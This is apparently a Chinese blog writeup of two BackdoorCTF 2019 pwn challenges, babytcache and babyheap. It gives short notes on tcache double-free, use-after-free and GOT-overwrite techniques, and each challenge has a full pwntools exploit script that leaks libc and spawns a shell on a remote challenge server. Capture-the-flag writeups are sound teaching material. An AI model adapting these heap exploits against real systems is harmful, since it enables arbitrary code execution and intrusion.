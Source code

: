 ```yaml
---
layout: post
title:  "BackdoorCTF 2019-Writeup"
date:   2019-10-28
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


# BackdoorCTF 2019-Writeup

昨天看了一眼ctftime发现BackdoorCTF还剩6小时结束，就上去翻了俩pwn玩了玩



## babytcache

double free、UAF、有view

限制free5次，没法直接free进unsorted bin

double free fd出堆地址view泄露，edit打heap起始把tcache bin链上的bin数改成7，然后free进unsorted bin

view泄露libc，打malloc_hook

```python
from pwn import *
#context.log_level='debug'
r = remote('51.158.118.84',17002)
#r = process('./babytcache')
elf = ELF('./babytcache')
libc = ELF('./libc.so.6')

def add(index,size,note):
	r.recvuntil('>> ')
	r.sendline('1')
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('size:')
	r.sendline(str(size))
	r.recvuntil('data:')
	r.sendline(note)

def edit(index,note):
	r.recvuntil('>> ')
	r.sendline('2')
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('data:')
	r.sendline(note)

def free(index):
	r.recvuntil('>> ')
	r.sendline('3')
	r.recvuntil('index:')
	r.sendline(str(index))

def view(index):
	r.recvuntil('>> ')
	r.sendline('4')
	r.recvuntil('index:')
	r.sendline(str(index))

add(0,0x90,'aaaa')
add(1,0x90,'aaaa')

free(0)
free(0)
view(0)
r.recvuntil('Your Note :')
leak = r.recvuntil('\n',drop=True)
heap_ptr = u64(leak.ljust(8,'\x00'))
log.success('heap_ptr:'+hex(heap_ptr))
fuck_addr = heap_ptr-0x250
edit(0,p64(fuck_addr))
add(2,0x90,p64(heap_ptr))
add(3,0x90,p64(0)+p64(0x7))

free(2)
view(0)
r.recvuntil('Your Note :')
leak = r.recvuntil('\n',drop=True)
main_arena = u64(leak.ljust(8,'\x00'))-96
log.success('main_arena:'+hex(main_arena))
libc_base = main_arena-0x10-libc.sym['__malloc_hook']
log.success('libc_base:'+hex(libc_base))
malloc_hook = main_arena-0x10
log.success('malloc_hook:'+hex(malloc_hook))
one = libc_base + 0x10a38c
log.success('one:'+hex(one))


add(4,0x60,'aaaa')
free(4)
free(4)
edit(4,p64(malloc_hook))
add(5,0x60,p64(malloc_hook))
add(6,0x60,p64(one))

r.recvuntil('>> ')
r.sendline('1')
r.recvuntil('index:')
r.sendline('7')
r.recvuntil('size:')
r.sendline('10')


r.interactive()
```



## babyheap

ubuntu16

UAF

free直接进unsortedbin进不去fastbin

unsortedbin打global_max_fast

UAF改fd和bk，fd为0，bk改两字节

`global_max_fast = main_area+88+0x3c67f8- 0x3c4b78`

需要爆破，16分之1

然后可以UAF+fastbin attack打堆地址，把需要用的got表写进去

edit把free_got改成puts_plt，free(got)泄露libc，然后edit把free_got改成system，free一个/bin/sh

```python
from pwn import * 
r = remote('51.158.118.84',17001)
#r = process('./babyheap')
elf = ELF('./babyheap')
libc = ELF('./libc.so.6')
context.log_level = 'debug'
def add(index,size,data):
	r.recvuntil('>> ')
	r.sendline('1')
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('size:')
	r.sendline(str(size))
	r.recvuntil('data:')
	r.sendline(data)

def edit(index,data):
	r.recvuntil('>> ')
	r.sendline('2')
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('data:')
	r.send(data)

def free(index):
	r.recvuntil('>> ')
	r.sendline('3')
	r.recvuntil('index:')
	r.sendline(str(index))


add(0,0x60,'fuck')
add(1,0x60,'fuck')
add(2,0x60,'fuck')
add(3,0x60,'/bin/sh\x00')

free(0)
edit(0,p64(0)+p16(0x67f8-0x10))
add(4,0x60,'fuck')

free(1)

free(2)
edit(2,p64(0x6020bd))
add(5,0x60,'fuck')

atoi_got = 0x602068

free_plt = elf.plt['free']
free_got = elf.got['free']
puts_plt = elf.plt['puts']

log.info('freegot:'+hex(free_got))
log.info('putsplt:'+hex(puts_plt))
payload ='\x02'*11+p64(0)+p64(0x60)*8+p64(free_got)+p64(atoi_got)
add(6,0x60,payload)
#free(0)

edit(0,p64(puts_plt))

free(1)
r.recvline()
leak = r.recvuntil('\n',drop=True)
libc_base = u64(leak.ljust(8,'\x00'))-libc.sym['atoi']
log.success('libc_base:'+hex(libc_base))
system = libc_base+libc.sym['system']
edit(0,p64(system))
free(3)
r.interactive()
```

